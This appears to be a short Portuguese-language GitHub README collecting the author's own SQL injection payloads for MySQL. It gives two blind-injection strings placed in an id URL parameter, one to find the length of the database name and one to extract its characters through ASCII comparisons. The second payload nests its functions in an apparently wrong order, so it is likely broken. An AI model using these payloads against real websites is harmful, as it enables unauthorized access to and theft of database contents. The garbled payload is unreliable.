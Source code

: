 # Minhas-payload-sql-injection

# Esse repositório não é cheat sheet de sql injection.

#==============Payload MySQL==============

EXTRAINDO número de caracteres DA DATABASE.
  ?id=1' AND LENGTH(DATABASE()) > 2 --+
  
#EXTRAINDO OS CARACTERES DO BANCO DE DADOS EM ASCII.
  ?id=1' AND substring(ascii(DATABASE()),1,8) >= 115--+-